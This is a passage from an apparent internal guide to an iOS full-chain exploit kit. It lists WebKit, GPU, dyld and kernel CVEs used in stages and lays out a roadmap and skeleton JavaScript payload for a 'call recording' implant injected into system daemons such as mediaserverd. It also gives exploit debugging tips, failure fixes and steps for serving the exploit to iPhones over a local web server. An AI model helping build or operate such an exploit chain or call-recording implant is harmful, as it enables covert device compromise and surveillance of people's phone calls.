| CVE-2025-43529 | RCE (18.6) | WebKit / JSC | JIT StoreBarrier UAF | iOS 26.2 |
| CVE-2026-20700 | PAC/TPRO Bypass | dyld | Stack-resident interpose abuse | iOS 26.3 |
| CVE-2025-14174 | Sandbox Escape | ANGLE (WebKit GPU) | OOB write in buffer mgmt | iOS 26.2 |
| CVE-2025-43510 | Kernel → Process | AppleM2ScalerCSCDriver | Copy-On-Write violation | iOS 26.1 |
| CVE-2025-43520 | Kernel LPE | XNU kernel | Privilege escalation | iOS 26.1 |



---

## 16. Call Recording Tweak — Design Roadmap

### High-Level Architecture



### Target Daemon Candidates

| Daemon | Pros | Cons |
|--------|------|------|
| `mediaserverd` | Controls all audio I/O; has `AudioQueue` access | Heavy, crash = no audio system-wide |
| `audiomxd`  | Audio mixing daemon; sees all audio streams | Less documented, newer |
| `mediaplaybackd` | Already have injection working | May not see telephony audio |
| `SpringBoard` | Has access to call UI state | Doesn't handle raw audio |
| `CommCenter` | Handles telephony at the modem level | Very restricted, complex |

### Recommended Approach

**Phase 1: Proof of Concept (Non-telephony)**
1. Inject into `mediaserverd` or `SpringBoard`
2. Use `AVAudioRecorder` via the Native Bridge to record microphone audio
3. Save to a known path (e.g., `/private/var/tmp/recording.caf`)
4. Prove the pipeline works

**Phase 2: Telephony Audio Capture**
1. Research `AudioSession` category routing on iOS
2. Hook into `VoiceServices.framework` or `TelephonyUtilities.framework`
3. Tap the telephony audio route (both uplink and downlink)
4. Mix into a single buffer and write to file

**Phase 3: Integration with index.html**
1. Add a "Call Record" toggle to the tweak selection UI in `index.html`
2. Wire it through `rce_loader.js` query parameters
3. The payload is loaded as part of the injection sequence in `pe_main.js`

### Skeleton Payload Code

```javascript
// call_recorder_light.js — Skeleton
const TAG = "CALLREC";

function LOG(msg) {
    Native.callSymbol("NSLog", `[${TAG}] ${msg}`);
}

function start() {
    LOG("Call Recorder tweak starting...");

    // 1. Load AVFoundation
    let avfHandle = Native.callSymbol("dlopen",
        "/System/Library/Frameworks/AVFoundation.framework/AVFoundation",
        0x2 /* RTLD_NOW */);
    LOG(`AVFoundation handle: ${avfHandle}`);

    // 2. Get AVAudioSession shared instance
    let sessionClass = Native.callSymbol("objc_getClass", "AVAudioSession");
    let sharedSel = Native.callSymbol("sel_registerName", "sharedInstance");
    let session = Native.callSymbol("objc_msgSend", sessionClass, sharedSel);

    // 3. Set category to PlayAndRecord
    let setCatSel = Native.callSymbol("sel_registerName", 
        "setCategory:withOptions:error:");
    // AVAudioSessionCategoryPlayAndRecord = "AVAudioSessionCategoryPlayAndRecord"
    // ... (string pointer construction needed)

    // 4. Create AVAudioRecorder
    // ... (complex: need to construct NSURL, NSDictionary for settings)

    // 5. Start recording
    // ...

    LOG("Call Recorder setup complete");
}

try {
    start();
} catch (e) {
    // LOG error
}
```

> [!IMPORTANT]
> The skeleton above is simplified. Constructing complex ObjC objects (NSURL, NSDictionary) through the Native Bridge requires careful memory management. Study how `sbcustomizer_light.js` creates NSString objects for reference.

---

## 17. Debugging & Operational Notes

### Using syslog.py

[syslog.py](file:///Users/aaravgupta/Pentesting/lightsaber/syslog.py) is your primary debugging tool:

```bash
# Basic usage — capture all exploit-related logs
python3 syslog.py

# The script filters for these tags automatically:
# [RCE], [SBX0], [SBX1], [PE], [CHAIN], [MAIN], [SBC], [PWR]
```

### Key Log Messages to Watch For

| Log Tag | Stage | Meaning |
|---------|-------|---------|
| `[RCE] addrof OK` | Stage 1 | Memory primitives established |
| `[RCE] fakeobj OK` | Stage 1 | Can create fake objects |
| `[SBX0] GPU process compromised` | Stage 3 | Sandbox escape successful |
| `[SBX1] kernel slide: 0x...` | Stage 4 | KASLR defeated, kernel R/W works |
| `[PE] Running on non-A18 Devices` | Stage 5-6 | `pe_main.js` is executing in daemon |
| `[CHAIN] ...` | Stage 6 | Kernel privilege escalation in progress |
| `[MAIN] ...` | Stage 7 | Implant injection happening |
| `[SBC] patching grid...` | Tweak | SpringBoard customizer active |
| `[PWR] level set to 0` | Tweak | Powercuff active |

### Common Failure Modes

| Symptom | Likely Cause | Fix |
|---------|-------------|-----|
| Chain hangs at "Exploiting..." | JIT exploit timing issue | Clear Safari cache + history, force quit Safari, retry |
| Kernel panic / reboot | COW exploit race condition | Wait 30 seconds, retry |
| `GPUProcessProxy::childConnectionDidBecomeUnresponsive` in logs | GPU exploit failed | Normal — exploit will auto-retry by crashing GPU process |
| Tweak doesn't appear to work | PAC violation in payload | Check syslog for crash in target daemon |
| `ERROR: offsets not found` | Wrong device/version combo | Verify your iPhone model and iOS version match offset tables |

### Serving the Exploit Locally

```bash
# From the lightsaber directory
cd ~/Pentesting/lightsaber
python3 -m http.server 8080

# Then on the iPhone, navigate to:
# http://<your-mac-ip>:8080/
```

> [!TIP]
> Use your Mac's local IP (e.g., `192.168.1.x`), not `localhost`. The iPhone needs to reach your Mac over the network.

---

## 18. Glossary

| Term | Definition |
|------|-----------|
| **addrof** | Primitive to leak the memory address of a JavaScript object |
| **ANGLE** | Almost Native Graphics Layer Engine — Google's OpenGL→Metal translation layer |
| **ASLR/KASLR** | Address Space Layout Randomization / Kernel ASLR — randomizes memory layout |
| **Butterfly** | JSC's internal backing store for object properties (named for its shape in memory) |
| **COW** | Copy-On-Write — memory optimization that shares pages until one process writes |
| **DFG/FTL** | Data Flow Graph / Faster Than Light — JSC's JIT compiler tiers |
| **dyld** | Apple's dynamic linker — loads frameworks and resolves symbols |
| **fakeobj** | Primitive to create a JavaScript object at an arbitrary memory address |
| **Heap Spray** | Technique of allocating many objects to make heap layout predictable |
| **Interposing** | dyld mechanism for replacing one function with another at load time |
| **IOKit** | Apple's device driver framework for communicating with kernel extensions |
| **JIT** | Just-In-Time compilation — converts JS to machine code at runtime |
| **JOP/ROP** | Jump/Return-Oriented Programming — chaining existing code snippets as gadgets |
| **JSC** | JavaScriptCore — Apple's JavaScript engine used in Safari |
| **Mach** | XNU's microkernel — provides task ports, IPC, virtual memory management |
| **MIG** | Mach Interface Generator — framework for Mach IPC message definitions |
| **Native Bridge** | The JS↔native function call interface used by all payloads |
| **PAC** | Pointer Authentication Codes — ARM cryptographic pointer signing |
| **SPRR** | System Page Protection/Read Restriction — hardware memory protection |
| **TPRO** | Trusted Path Read-Only — hardware-enforced read-only memory regions |
| **Type Confusion** | Bug where code treats memory as the wrong type, enabling corruption |
| **UAF** | Use-After-Free — accessing memory after it's been deallocated |
| **ucred** | Unix credential structure in the kernel — controls process privileges |
| **XPC** | Apple's inter-process communication framework |

---

> [!NOTE]
> **Next Steps:**
> 1. Study `powercuff_light.js` closely — it's the simplest tweak and the best template
> 2. Research iOS audio framework headers (`AudioToolbox`, `AVFoundation`, `MediaToolbox`)
> 3. Identify the exact Objective-C classes and methods needed for audio tapping
> 4. Build a proof-of-concept `call_recorder_light.js` following the patterns above
> 5. Test with `syslog.py` monitoring — look for your `[CALLREC]` tags
